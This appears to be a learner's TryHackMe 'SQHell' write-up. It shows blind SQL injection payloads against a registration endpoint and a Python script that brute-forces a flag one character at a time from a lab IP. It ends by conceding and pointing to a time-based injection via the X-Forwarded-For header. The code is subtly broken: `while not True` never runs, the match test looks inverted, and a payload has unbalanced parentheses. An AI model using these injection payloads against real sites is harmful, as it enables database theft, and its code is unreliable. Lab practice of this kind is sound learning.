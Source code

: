 This being true means that the flag does not start with a F 
![1080](captialF.png)

THM{} is format
![1080](flagsstartwithT.png)
`admin' AND (select substring(flag,1,1) FROM flag='T'-- -`

He is scripting it. YES!
```python
import requests
import string
import sys

charset = string.ascii_uppercase + "{}:" + "0123456789"
proxies = {
        'http' : 'http://localhost:8080'
        }
url = "http://10.10.247.220"
flag = ""
position = 1

# requests params={} urlencodes automatically - according to T1b3rious

while not True:
    for item in charset:
        uri = f"/register/user-check?username=admin'+AND+(select+substring(flag,{position},1)+FROM+flag)%3d'{item}'--+-"
        r = requests.get(url + uri, proxies=proxies)
        if "false" in r.text:
            flag += item
            print(flag)
            if item == '}':
                break

    position += 1

exit()
```

I learnt so much python with this.

## Terms and Conditions to get!

TIL:
A breadcrumb navigation provide links back to each previous page the user navigated through, and shows the user's current location in a website.]

I test all the links and nothing addition is added returning to /home, /login /register

There seems to be nothing the database is returning to the page.

After some time of thinking I think I need to concede. I have lot to learn and do. [Hafiq Iqmal](https://infosecwriteups.com/tryhackme-sqhell-2dd7bd7f0990) has a great writeup on SQHell. The reason it was not returning to the page is that it is a Time-based Blind injection am I glad I conceded.
Hafiq says:
in ... PHP, the `X-Fowarded-For` header is commonly used for logging the user IP Address.
